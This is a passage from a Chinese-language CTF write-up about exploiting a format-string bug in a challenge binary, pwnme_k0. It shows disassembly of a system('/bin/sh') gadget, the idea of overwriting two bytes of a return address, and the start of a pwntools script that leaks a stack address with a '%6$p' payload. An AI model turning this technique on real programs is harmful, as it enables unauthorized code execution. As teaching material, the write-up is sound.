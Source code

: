 ![fmrstr_3.png](img\fmrstr_3.png)

0x0000000000400d74 与 0x00000000004008A6 只有低 2 字节不同，所以我们可以只修改 0x00007fffffffdb48 开始的 2 个字节。

这里需要说明的是**在某些较新的系统 (如 ubuntu 18.04) 上, 直接修改返回地址为 0x00000000004008A6 时可能会发生程序 crash**, 这时可以考虑修改返回地址为 0x00000000004008AA, 即直接调用 system("/bin/sh") 处

```shell
.text:00000000004008A6 sub_4008A6      proc near
.text:00000000004008A6 ; __unwind {
.text:00000000004008A6                 push    rbp
.text:00000000004008A7                 mov     rbp, rsp
.text:00000000004008AA <- here         mov     edi, offset command ; "/bin/sh"
.text:00000000004008AF                 call    system
.text:00000000004008B4                 pop     rdi
.text:00000000004008B5                 pop     rsi
.text:00000000004008B6                 pop     rdx
.text:00000000004008B7                 retn
```

#### 利用程序 

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe
# @Email   : skye231@foxmail.com
# @File    : pwnme_k0.py
from pwn import *
context.log_level = 'debug'

p = process("./pwnme_k0")
elf = ELF("./pwnme_k0")

# leak stack addr
payload = 'a'*0x8 + "%6$p"

p.recvuntil("20): \n")
p.send(payload)
p.recvuntil("20): \n")
p.send(payload)

p.recvuntil('>')
#gdb.attach(p,'b printf')
```